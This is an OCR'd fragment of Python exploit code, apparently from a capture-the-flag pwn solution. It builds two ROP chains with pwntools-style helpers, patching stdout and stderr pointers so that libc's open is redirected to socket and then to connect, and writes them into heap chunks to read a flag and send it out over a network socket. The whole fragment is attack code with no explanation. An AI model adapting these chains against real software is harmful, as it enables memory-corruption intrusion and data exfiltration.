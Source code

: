 ```python
	p64(jmp_rax),
	p64(2),
	modify(stderr_addr, pop_rsi- pop_rdi),
	p64(pop_rbp),
	p64(flag_addr-0x18),
	p64(mov_rax),
	p64(0),
	p64(jmp_rax),
	p64(1),
    modify(stderr_addr, pop_rdx-0x111111-pop_rsi),
	modify(stderr_addr,0x111111),	
    p64(pop_rbp),
	p64(flag_addr-0x18),
	p64(mov_rax),
	p64(0),
	p64(jmp_rax),
	p64(0),
	modify(stdout_addr,libc.sym['socket'] - libc.sym['open']),
	p64(pop_rbp),
	p64(flag_addr),
	p64(mov_rax),
	p64(0),
	p64(jmp_rax),
	p64(pop_rsp),
	p64(chunk3_addr-0x8+0x30)	
])
edit_func(2,payload1)

payload2=b'a'*0x30+flat([
    modify(stderr_addr, pop_rdi-pop_rdx),
	p64(pop_rbp),
	p64(flag_addr-0x18),
	p64(mov_rax),
	p64(0),
	p64(jmp_rax),
	p64(1),
	modify(stderr_addr, pop_rsi- pop_rdi),
	p64(pop_rbp),
	p64(flag_addr-0x18),
	p64(mov_rax),
	p64(0),
	p64(jmp_rax),
	p64(sock_addr),
	modify(stderr_addr, pop_rdx-0x111111-pop_rsi),
	modify(stderr_addr,0x111111),
    p64(pop_rbp),
	p64(flag_addr-0x18),
	p64(mov_rax),
	p64(0),
	p64(jmp_rax),
	p64(16),
	modify(stdout_addr,libc.sym['connect'] - libc.sym['socket']),
	p64(pop_rbp),
	p64(flag_addr),
	p64(mov_rax),
	p64(0),
	p64(jmp_rax),
	p64(pop_rsp),
	p64(chunk4_addr-0x8+0x30)	
])
edit_func(3,payload2)


```